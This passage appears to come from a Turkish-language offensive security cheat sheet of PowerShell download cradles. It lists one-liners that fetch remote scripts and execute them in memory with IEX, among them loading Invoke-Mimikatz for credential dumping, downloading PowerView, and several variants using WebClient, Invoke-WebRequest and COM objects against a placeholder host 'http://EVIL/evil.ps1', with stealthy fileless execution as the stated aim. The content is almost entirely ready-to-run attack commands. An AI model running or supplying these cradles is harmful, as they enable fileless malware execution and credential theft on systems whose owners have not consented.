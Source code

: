 ##### 2- DownloadFileAsync

```powershell-session
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```



### 3- PowerShell DownloadString - Fileless Method

```powershell-session
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```


IEX ayrıca pipeline girdisini de kabul eder.

```powershell-session
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

### 4- PowerShell Invoke-WebRequest

```powershell-session
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```


### 5- Normal Download Cradle

```powershell-session
IEX (New-Object Net.Webclient).downloadstring("http://EVIL/evil.ps1")
```


### 6- PowerShell 3.0+ İçin Basit Yöntem

```powershell-session
IEX (iwr 'http://EVIL/evil.ps1')
```


### 7- Internet Explorer (IE) COM Nesnesi ile Gizli İndirme

```powershell-session
$h = New-Object -ComObject Msxml2.XMLHTTP;
$h.open('GET','http://EVIL/evil.ps1',$false);
$h.send();
iex $h.responseText
```


### 8- WinHttp COM Nesnesi ile İndirme

```powershell-session
$h = new-object -com WinHttp.WinHttpRequest.5.1;
$h.open('GET','http://EVIL/evil.ps1',$false);
$h.send();
iex $h.responseText
```
